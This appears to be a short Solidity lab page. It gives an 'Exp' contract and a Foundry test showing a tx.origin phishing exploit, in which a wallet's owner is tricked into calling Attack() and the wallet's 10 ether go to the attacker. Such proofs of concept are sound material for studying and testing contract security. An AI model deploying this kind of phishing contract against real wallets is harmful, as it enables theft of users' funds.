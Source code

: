 ### Test

Exp:

```solidity
contract Exp {
    Wallet wallet;
    address owner;

    constructor(address addr) {
        wallet = Wallet(addr);
        owner = msg.sender;
    }

    function Attack() public {
        wallet.transfer(payable(owner), 10 ether);
    }
}
```

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";
// import "forge-std/Vm.sol";

import {Wallet, Exp} from "src/Test.sol";

contract TestTest is Test {
    // Vm vm = Vm(address(uint160(uint256(keccak256("hevm cheat code")))));
    Wallet wallet;
    Exp exp;
    address owner;
    address attacker;

    function setUp() public {
        owner = makeAddr("owner");
        vm.deal(address(owner), 10 ether);
        vm.prank(owner);
        wallet = new Wallet{value: 10 ether}();
        attacker = makeAddr("attacker");
    }

    function test_tx_origin_phishing() public {
        vm.prank(attacker);
        exp = new Exp(address(wallet));
        // attacker phishing owner call the Attack() function
        vm.prank(owner, owner);
        exp.Attack();
        console.log("Attacker Balance:", attacker.balance);
    }
}
```
